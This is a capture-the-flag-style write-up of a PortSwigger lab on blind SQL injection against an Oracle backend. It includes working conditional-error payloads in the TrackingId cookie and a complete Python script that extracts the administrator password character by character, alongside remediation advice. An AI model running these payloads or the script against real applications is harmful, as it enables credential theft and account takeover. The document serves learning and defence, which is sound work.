





# Blind SQL Injection with Conditional Errors — PortSwigger Web Security Academy

> Exploitation of a blind SQL injection vulnerability using Oracle conditional error induction (`TO_CHAR(1/0)`) and automated credential extraction via a custom Python script, resulting in full administrator account compromise.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings / Results](#findings--results)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

Blind SQL injection vulnerabilities do not surface query results in application responses, making them significantly harder to detect and exploit than in-band injection variants. This lab simulates a real-world scenario where a web application processes a tracking cookie value in an unsanitised SQL query. The application's only observable behaviour difference is a 500 Internal Server Error triggered when a database-level divide-by-zero exception occurs.

The objective was to exploit this conditional error behaviour to enumerate the `administrator` account password character by character, then authenticate as that user to confirm full compromise.

> **Key Outcome:** Administrator credentials (`pld00eznnqc06zsm6dkt`) were extracted character by character from the `users` table using Oracle conditional error induction, and the lab was solved via authenticated login.

---

## Scope & Objectives

### Objectives

- Confirm the presence of a blind SQL injection vulnerability in the `TrackingId` cookie parameter
- Determine the length of the `administrator` password via conditional numeric error induction
- Extract the full password by enumerating each character position against the full alphanumeric character set
- Authenticate as `administrator` to confirm successful exploitation

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| PortSwigger Web Security Academy Lab | Blind SQL injection with conditional errors | Web Application |
| `TrackingId` cookie parameter | Injection point | HTTP Cookie |
| `users` table (`username`, `password` columns) | Target data | Database |

### Out of Scope

- Any system outside the assigned lab instance
- Session hijacking or authentication bypass techniques unrelated to SQL injection
- Automated scanning tools — manual payload construction was applied throughout

### Engagement Type

> **Type:** White-box (challenge description discloses database structure)
> **Authorization:** Sanctioned PortSwigger Web Security Academy lab environment
> **Duration:** Single session

---

## Methodology

This engagement followed the **OWASP Testing Guide (OTG-INPVAL-005)** for SQL injection testing and the **PTES** exploitation phase structure. The MITRE ATT&CK framework was referenced for technique classification.

### Phase 1 — Injection Point Identification

The `TrackingId` cookie was identified as the target parameter. The application was confirmed to execute the cookie value as part of a raw SQL query with no visible output returned to the client.

### Phase 2 — Conditional Error Oracle Establishment

Oracle-specific divide-by-zero syntax (`TO_CHAR(1/0)`) was used to establish a reliable boolean signal:

- **True condition** → HTTP 500 Internal Server Error (error returned)
- **False condition** → HTTP 200 OK (normal response)

Base payload structure:

```sql
TrackingId=x' AND (SELECT CASE WHEN ([CONDITION]) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--
```

### Phase 3 — Password Length Enumeration

Burp Suite Intruder (Sniper mode, Numbers payload type, range 1–25) was used to brute-force the password length via:

```sql
CASE WHEN LENGTH(password) > §N§ THEN TO_CHAR(1/0) ELSE 'a' END
```

500 responses were observed for payloads 1–19. The 500 response stopped at payload 20, confirming a password length of exactly **20 characters**.

### Phase 4 — Character-by-Character Extraction

With Burp Suite Community Edition rate-limiting Intruder to one request per second, a custom Python script was developed to eliminate throttling constraints. The script iterated over all 20 character positions against the full alphanumeric character set (`a-z`, `0-9`):

```sql
CASE WHEN SUBSTR(password,§POS§,1) = '§CHAR§' THEN TO_CHAR(1/0) ELSE 'a' END
```

A 500 response for a given `(position, character)` pair confirmed the correct character at that index.

---

## Findings / Results

### Finding 001 — Blind SQL Injection via Conditional Oracle Error Induction

| Field | Detail |
|-------|--------|
| **ID** | SQLI-001 |
| **Severity** | [CRITICAL] |
| **CVSS v3.1 Score** | 9.8 |
| **CVSS v3.1 Vector** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-89: Improper Neutralisation of Special Elements used in an SQL Command |
| **OWASP Category** | A03:2021 — Injection |
| **MITRE ATT&CK TTP** | T1190 — Exploit Public-Facing Application |
| **Affected Component** | `TrackingId` HTTP cookie parameter |

**Description**

The application constructs a SQL query by directly concatenating the `TrackingId` cookie value without sanitisation or parameterisation. An attacker can inject Oracle SQL expressions into this parameter. By inducing a divide-by-zero exception conditionally (`TO_CHAR(1/0)`), the attacker can infer boolean query results from the HTTP response code (500 vs 200), enabling full data extraction without any query output being returned.

**Technical Impact**

Full read access to any table accessible by the database user, including the `users` table containing plaintext credentials for all accounts.

**Business Impact**

Unauthenticated remote extraction of administrator credentials permits complete application takeover, including access to all user data, administrative functionality, and potential lateral movement if credentials are reused.

**Proof of Concept**

Step 1 — Confirm injection and error oracle:

```sql
TrackingId=x' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a'--
```

Expected: HTTP 500 (condition is true, divide-by-zero triggered)

Step 2 — Extract first character of administrator password:

```sql
TrackingId=x' AND (SELECT CASE WHEN SUBSTR(password,1,1)='p' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--
```

Expected: HTTP 500 (confirms first character is `p`)

**Remediation**

Replace dynamic query string concatenation with parameterised queries (prepared statements) at the database access layer. Example (Python / cx_Oracle):

```python
cursor.execute(
    "SELECT tracking_data FROM analytics WHERE tracking_id = :tid",
    {"tid": tracking_id_value}
)
```

No user-controlled input should ever be interpolated directly into a SQL string.

**Retest Criteria**

Re-inject the original payload after remediation. A 500 response to any crafted payload would indicate incomplete remediation. Expected post-fix behaviour: consistent 200 response regardless of injected SQL syntax in the cookie.

---

## Attack Chain

```
[1] Identify injection point
    TrackingId cookie parameter — no output returned, no error displayed by default

[2] Establish error oracle
    Inject TO_CHAR(1/0) inside a CASE WHEN to map 500 = TRUE, 200 = FALSE

[3] Enumerate password length
    CASE WHEN LENGTH(password) > N — iterate N until 500 stops firing
    Result: password length = 20

[4] Extract password characters
    CASE WHEN SUBSTR(password,pos,1) = 'char' — iterate all 20 positions
    Script automation bypasses Burp Community Edition rate limit
    Result: pld00eznnqc06zsm6dkt

[5] Authenticate
    Log in as administrator:pld00eznnqc06zsm6dkt
    Lab solved — "Congratulations, you solved the lab!"
```

---

## Tools & Environment

| Tool | Version | Purpose |
|------|---------|---------|
| Burp Suite Community Edition | v2026.3.2 | HTTP interception, Intruder (length enumeration, first-character test) |
| Python | 3.13 | Custom blind SQLi extraction script |
| `requests` library | Latest | HTTP request automation |
| Firefox / Chromium | 146 | Application interaction |
| Kali Linux | Rolling | Attacker OS |
| PortSwigger Web Security Academy | — | Lab environment |

---

## Evidence

### Password Length Enumeration — Burp Suite Intruder


*Intruder attack results: payloads returning HTTP 500 (length 2555) confirm the password length is greater than the injected value. The transition to HTTP 200 at payload 20 confirms exact length.*

---


*Intruder configuration: Numbers payload type, sequential range 1–25, targeting the LENGTH(password) comparison position.*

---

### First Character Identification — Burp Suite Intruder


*Intruder single-character test: payload `p` triggers HTTP 500 (response length 2555 vs baseline 3361), confirming the first character of the administrator password is `p`.*

---

### Full Password Extraction — Python Script


*Python extraction script output: all 20 character positions resolved successfully. Final password: `pld00eznnqc06zsm6dkt`. Completed in 361 seconds.*

---

### Lab Solved


*Lab completion confirmation: authenticated as `administrator` using the extracted password. Status badge shows "Solved".*

---

<details>
<summary>Python Extraction Script — Full Source</summary>

```python
import requests

url = "https://<LAB-ID>.web-security-academy.net/login"
session_cookie = "<SESSION-COOKIE>"
characters = "abcdefghijklmnopqrstuvwxyz0123456789"
password = ""

for position in range(1, 21):
    for char in characters:
        payload = (
            f"<TRACKING-ID>' AND (SELECT CASE WHEN SUBSTR(password,{position},1)='{char}' "
            f"THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'--"
        )
        cookies = {
            "TrackingId": payload,
            "session": session_cookie
        }
        r = requests.get(url, cookies=cookies)
        if r.status_code == 500:
            password += char
            print(f"[+] Position {position}: {char}  ->  {password}")
            break

print(f"\n[*] Final password: {password}")
```

</details>

---

## Lessons Learned

**1. Conditional error oracles are as effective as time-based oracles**
`TO_CHAR(1/0)` provides a faster and more reliable signal than `DBMS_PIPE.RECEIVE_MESSAGE` or sleep-based inference. Error-based blind SQLi reduces extraction time significantly when the application surfaces HTTP status codes.

**2. Burp Suite Community Edition throttling is a practical bottleneck**
Intruder's one-request-per-second cap in the Community Edition makes character extraction from a 20-character password impractical at scale. Migrating to a custom `requests`-based Python script eliminated the constraint entirely and completed extraction in under 7 minutes.

**3. Payload syntax precision is critical in blind injection**
Two categories of errors were encountered and corrected during this engagement:
- Typo in `username='adminstrator'` (missing character) caused silent query misses — the CASE expression always evaluated the ELSE branch.
- Residual `> 100` numeric comparison from the LENGTH-testing phase was inadvertently left in the SUBSTR payload, producing a malformed CASE condition.

Both errors produced no HTTP error — the query executed but returned no useful signal. Payload review prior to attack execution is non-negotiable.

**4. MITRE ATT&CK alignment**
This technique maps to `T1190 — Exploit Public-Facing Application` and the data extraction phase maps to `T1005 — Data from Local System` (database as local data store from the application's perspective).

**Skills demonstrated:** Blind SQL injection, Oracle SQL syntax, conditional error induction, Burp Suite Intruder, Python scripting for security automation, payload debugging, CVSS v3.1 scoring.

---

## References

| Resource | URL |
|----------|-----|
| PortSwigger — Blind SQL injection | https://portswigger.net/web-security/sql-injection/blind |
| OWASP Testing Guide — OTG-INPVAL-005 | https://owasp.org/www-project-web-security-testing-guide/ |
| CWE-89: SQL Injection | https://cwe.mitre.org/data/definitions/89.html |
| MITRE ATT&CK T1190 | https://attack.mitre.org/techniques/T1190/ |
| CVSS v3.1 Calculator | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator |
| Oracle TO_CHAR / CASE syntax | https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/CASE-Expressions.html |

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
